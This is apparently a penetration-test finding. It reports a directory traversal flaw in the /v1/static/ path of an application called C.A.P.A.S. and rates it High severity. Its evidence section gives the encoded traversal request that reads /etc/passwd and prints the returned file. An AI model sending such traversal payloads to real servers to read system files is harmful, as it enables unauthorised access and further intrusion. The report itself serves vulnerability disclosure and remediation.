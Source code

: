#### Directory Traversal to Access Sensitive Files

##### Description
A directory traversal vulnerability was identified in the /v1/static/ path, where an attacker can exploit path manipulation techniques to access sensitive files outside the intended directory. Specifically, by crafting a request to the URL 
`http://192.168.72.128:3000/v1/static/\..\..\..\..\..\..\..\..\..\etc\passwd`,

the attacker was able to retrieve the contents of the /etc/passwd file, which contains sensitive information about user accounts on the server.

##### Severity 
High

##### Impact in Business Context
This vulnerability poses a significant security risk as it allows attackers to gain access to sensitive system files. The /etc/passwd file contains critical information about user accounts, including usernames, and system configuration details. If this file is exposed, attackers could potentially perform further enumeration, privilege escalation, or other attacks targeting system users. In the context of C.A.P.A.S., which handles sensitive attack submission details, this vulnerability could lead to unauthorized access to administrative credentials or system configurations, jeopardizing the confidentiality and integrity of user data.

###### Evidence
- Request
    ```json
    GET /v1/static/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
    Host: 192.168.72.128:3000
    ```

- Respone
    ```text
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
    syslog:x:104:110::/home/syslog:/usr/sbin/nologin
    _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
    tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
    uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
    tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
    landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:110:1::/var/cache/pollinate:/bin/false
    usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
    sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    silver:x:1000:1000:Silverskin:/home/silver:/bin/bash